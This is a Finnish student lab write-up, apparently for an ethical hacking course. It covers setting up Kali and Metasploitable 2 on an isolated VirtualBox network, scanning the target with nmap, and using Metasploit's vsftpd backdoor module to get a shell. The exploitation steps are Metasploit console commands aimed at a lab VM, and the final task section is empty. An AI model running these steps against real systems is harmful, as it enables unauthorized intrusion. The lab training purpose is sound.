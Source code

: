 #h3 Lab Kid
## x) Lue/katso ja tiivistä. 
The Metasploit Framework on avoimen lähdekoodin penetraatiotestaus- ja hyökkäystyökalu, joka tarjoaa valikoiman moduuleja ja apuvälineitä haavoittuvuuksien löytämiseen ja hyödyntämiseen. Se mahdollistaa penetraatiotestauksen ja haavoittuvuuskartoituksen suorittamisen.

Yleisesti metasploitnetwork voidaan jakaa kolmeen pääosaan:

Kirjastot(Libraries):
REX, framework-core, framework-base 

Käyttöliittymät(Interfaces):
mfsconsole, armitage

Moduulit(Modules):
Hyökkäykset(Exploits)
Kuorma(Payloads)
Lisämoduulit(Auxiliary modules)
Jälkimoduulit(Post modules)
Koodin kääntäjät(Encoders)
Ei operaatioita(No operations=NOPs)

Nyrkkeilysäkki = Kalin ja Metasploitable 2:n asentaminen sekä kytkeminen samaan verkkoon. Luettu lähde (Riku Mannonen) https://rikumannonen935063021.wordpress.com/

## a) Kalin asennus virtual boxille
Aluksi tarvitsee virtualisointi alusta. Itsellä käytössä on [virtualbox](https://www.virtualbox.org/). Sen jälkeen vain asentakaan kali linux. Kali linuxin ISO tiedon saa ladattua [kali.org](https://www.kali.org/get-kali/#kali-installer-images) sivulta. Sitten kali linux pitää lisätä virtual boxiin ja asentaa käyttövalmiiksi.

Kun kali linuxin ISO on ladattu käynnistin virtual boxin ja painoin "New". Asetin haluaman vertiaalikoneen nimen, sekä tarvittavan typen ja version.

![Alt text](/H3LabKid/h3.a1.png)

Sitten ram muistin sekä prosessorien määrän asettaminen. Määritetään tarvittava levyn koko. Sitten next ja finnish.

![Alt text](/H3LabKid/h3.a2.png)

![Alt text](/H3LabKid/h3.a3.png)

Virtual boxissa settings kohdasta lisäsin storage kohtaan ladatun ISO tiedoston ja sen jälkeen startasin kali linuxin asennusohjelman virtual boxin start kohdasta.

![Alt text](/H3LabKid/h3.a4.png)

Valitsin Graphical install. Valitsin kielen, sijainnin ja näppäimistönkielen.

![Alt text](/H3LabKid/h3.a5.png)

Jätin hostnamen suositukseksi. Domain name ei tarvitse lisätä. Sen jälkeen käyttäjän lisääminen ja continue muutaman kerran ja asennus alkaa. Kun asennus on valmis virtuaalitietokone käynistyy uudelleen ja kysyy käyttäjätietoja. Kalin asennus on valmis.

![Alt text](/H3LabKid/h3.a6.png)

## b) Metasploitable 2 asennus virtual boxille
Metasploitable 2 lataus [täältä](https://sourceforge.net/projects/metasploitable/). Metasploitablen asentaminen pitäisi onnistu vain virtual boxiin lisäämisellä ja käynnistämisellä. Jostain syystä käynnistyksen yhteydessä kohtasin seuraavan ongelman. 

![Alt text](/H3LabKid/h3.b1.png)

[Netistä](https://www.youtube.com/watch?v=aYxfhMrjVhk&ab_channel=RKiLAB), kun selvittää niin tämä ongelmä näyttää ilmenneen ainakin vuoden ajan. Että sain käynnistettyä metasploitablen minun piti käynnistyksen aikana painaa ESC, jotta pääsi grub loaderiin. Sen jälkeen muokkasin Ubuntu 8.04, kernel 2.6.24-16-server kohtaa painamalla 'e'.

![Alt text](/H3LabKid/h3.b2.png)

Sitten muokkasin kohtia root ja kernel lisäämällä 'noapic' niiden perään. Tämän jälkeen painoin 'b' ja metasploitable käynnistyi onnistuneesti.

![Alt text](/H3LabKid/h3.b3.png)
![Alt text](/H3LabKid/h3.b4.png)

## c) Virtuaaliverkko koneiden välille

Muutin virtual boxissa asentamani kalin sekä metasploitablen network asetuksia. Kalin network adapter 1 laitoin NAT network ja adapter 2 laitoin host-only adapter ja valitsin name kohtaan virtuaalisen adapterin joka löytyi jo valmiiksi koneeltani. (Jos yhtään virtuaaliverkkoa ei löydy käy lisäämässä se virtual boxiin "File" > "Tools" > "Network Manager"
Luo uusi "Host-only Network" klikkaamalla "Create" Myös nat verkon lisääminen onnistuu samasta paikasta.)

![Alt text](/H3LabKid/h3.c2.png)
![Alt text](/H3LabKid/h3.c3.png)
![Alt text](/H3LabKid/h3.c4.png)

Tämän jälkeen käynnistin kalin ja testasin pääseekö sillä internettin nat yhteyden kautta. En saanyt yhteyttä internettiin, joten katsoin kalin verkkoasetukset ifconfig komennolla ja huomasin, että eth0:lla ei ollut ip-osoitetta. Joten pyydetään komennolla sellainen.

![Alt text](/H3LabKid/h3.c7.png)
      
    $ sudo dhclient eth0 
![Alt text](/H3LabKid/h3.c8.png)
![Alt text](/H3LabKid/h3.c6.png)

Nyt ainakin nat yhteys pelaa. Kun haluaa kalin internet yhteyden pois päältä käy muuttamassa virtual boxissa virtuaali koneen asetuksia settings > network > enable network adapter ja poistaa ruksin. Kun näin tekee näyttää ifconfig seuraavalta eikä internet yhteys toimi. 

![Alt text](/H3LabKid/h3.c12.png)

Tämän jälkeen testasin pingiä kalin ja metasploitablen välillä näyttää toimivan.

![Alt text](/H3LabKid/h3.c9.png)
![Alt text](/H3LabKid/h3.c10.png)

## d) Etsi Metasploitable porttiskannaamalla
Otin Kalin nat yhteyden aluksi pois eli nyt koneet eivät ole yhteydessä nettiin. Kalin ja metasploitablen välillä toimii virtuaalinen only-host verkko. Testasin, että nettiin ei ole yhteyttä. 

![Alt text](/H3LabKid/h3.d1.png)
![Alt text](/H3LabKid/h3.d2.png)

Loin msfdb tietokannan ja käynnistin kalilla metasploit framworking.

    $ sudo msfdb init
    $ msfconsole

Sitten katsoin hosts komennolla metasploitablen ip:n ja etsin porttiskannerilla sitä ip-osoitetta.

    $ hosts
    $ db_nmap -sn 192.168.56.102

![Alt text](/H3LabKid/h3.d4.png)

Totesin, että kyseinen verkko pitäisi olla olemassa, niin hain sitä netistä sen ip-osoitteella.

![Alt text](/H3LabKid/h3.d5.png)
    
Selvästi olen löytänyt oikein ip-osoiteen eli metasploitablen osoitteen.

## e) Porttiskannaa Metasploitable huolellisesti. Analysoi tulos. 

Tein laajemman skannauksen metasploitableen. -A yleisesti laajempi skannaus (eri versiot, script scanning jne.). Kaikki portit saadaan skannattua -p0- 

    $ db_nmap -A -p0- 192.168.56.102
![Alt text](/H3LabKid/h3.e1.png)

Metasploitablelta löytyi noin 20 avointa tcp porttia. Porttiskannaus kertoi porteissa pyörivien palveluiden versiot joiden avulla esimerkiksi [exploit DB:stä](https://www.exploit-db.com/) pystyisi hakemaan haavoittuvuuksia kyseisten palveluiden versioille. Lisäksi listasi myös muita saatuja tietoja tcp porttien palveluista. Tämä oli itselle ensimmäinen kerta, kun porttiskannaan jotain muuta kuin localhostia. Lähinni suurin osa tulostuksesta on uutta, joten en osaa sanoa mikä siinä olisi erikoista.

## f) Murtaudu Metasploitablen VsFtpd-palveluun Metasploitilla

Heataan msf:sta löytyykö kohteen vsftpd versiolle haavoittuvuutta. 

    > search vsftpd
![Alt text](/H3LabKid/h3.f1.png)

Löytyi yksi joten valitsin sen ja katsoin mitä asetuksia tälle pystyy asettamaan.

    $ use 0
    $ show options
![Alt text](/H3LabKid/h3.f2.png)

RPORT on automaattisesti määritelty 21, joten lisätään RHOSTS metasploitablen osoite.

    $ set rhosts 192.168.56.102
Tämän jälkeen hyökkäsin palveluun exploit komennolla. Kun shell yhteys on saatu kohteeseen voidaan hakea esimerkikse perus tietoja kohteesta komennoilla: whoami, id ja ifconfig.

![Alt text](/H3LabKid/h3.f3.png)

## g) Parempi sessio. Tee vsftpd-hyökkäyksestä saadusta sessiosta parempi. (Voit esimerkiksi päivittää sen meterpreter-sessioksi, laittaa tty:n toimimaan tai tehdä uuden käyttäjän ja ottaa yhteyden jollain tavallisella protokollalla)






## Lähteet
https://terokarvinen.com/2023/eettinen-hakkerointi-2023/

https://rikumannonen935063021.wordpress.com/

https://sourceforge.net/projects/metasploitable/

https://www.youtube.com/watch?v=aYxfhMrjVhk&ab_channel=RKiLAB

https://www.geeksforgeeks.org/how-to-install-metasploitable-2-in-virtualbox/


